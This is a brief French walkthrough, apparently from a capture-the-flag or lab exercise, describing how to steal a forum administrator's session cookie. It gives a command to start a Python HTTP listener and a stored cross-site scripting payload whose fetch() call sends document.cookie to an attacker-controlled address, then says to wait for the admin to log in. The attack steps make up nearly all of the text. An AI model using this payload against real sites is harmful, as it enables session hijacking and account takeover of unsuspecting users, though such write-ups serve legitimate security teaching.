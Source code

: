 
On met un serveur HTTP listener :
```bash
python3 -m http.server 8000
```

On injecte un script dans la balise message du forum pour récupérer le cookie de l'admin.
```html
<script>fetch('http://192.168.1.13:8000?cookie='+document.cookie)</script>
```

Ensuite, il suffit d'attendre que l'admin se connecte et on récupère son cookie.
